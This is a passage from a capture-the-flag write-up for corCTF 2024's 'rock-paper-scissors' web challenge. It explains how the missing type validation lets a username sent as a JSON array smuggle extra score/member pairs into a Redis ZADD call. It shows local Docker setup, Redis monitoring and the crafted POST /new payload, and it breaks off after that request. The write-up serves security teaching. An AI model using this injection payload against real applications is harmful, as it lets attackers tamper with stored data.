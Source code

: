 As you can see, the `ZADD` command actually supports multiple score and member pair. For instance, the following `ZADD` command set key `scoreboard`'s score `123` to `dummy_username` and score `1337` to `flag_username`:

```
ZADD scoreboard 123 "dummy_username" 1337 "flag_username"
```

In this challenge, there's **no type validation** at all, so we can **parse our username as an array to trick the `zadd` method to set multiple members' score**! 

## Exploitation

To test this, we can build the Docker images and run the containers locally:

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors)-[2024.07.29|19:36:31(HKT)]
└> cd rock-paper-scissors   
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors/rock-paper-scissors)-[2024.07.29|19:36:33(HKT)]
└> docker compose -f "docker-compose.yml" up -d --build
[...]
```

Now, to check the Redis logs in real-time, we can go to our Redis container and use command [`MONITOR`](https://redis.io/docs/latest/commands/monitor/):

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors/rock-paper-scissors)-[2024.07.29|19:41:55(HKT)]
└> docker container list
CONTAINER ID   IMAGE                       COMMAND                  CREATED              STATUS              PORTS                                         NAMES
5dc55349c71a   rock-paper-scissors-chall   "docker-entrypoint.s…"   About a minute ago   Up About a minute   0.0.0.0:8080->8080/tcp, :::8080->8080/tcp     rock-paper-scissors-chall-1
3efdf78fc5dc   redis                       "docker-entrypoint.s…"   About a minute ago   Up About a minute   0.0.0.0:32769->6379/tcp, :::32769->6379/tcp   rock-paper-scissors-redis-1
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors/rock-paper-scissors)-[2024.07.29|19:42:17(HKT)]
└> docker exec -it 3efdf78fc5dc /bin/bash                                               
root@3efdf78fc5dc:/data# redis-cli monitor
OK

```

Then, we can go to `localhost:8080` and test it!

First, we'll need to let the application to sign our JWT with the following payload and get the `session` cookie:

```http
POST /new HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Content-Length: 52

{
  "username": [
    "dummy_username",
    1337,
    "flag_username"
  ]
}
```
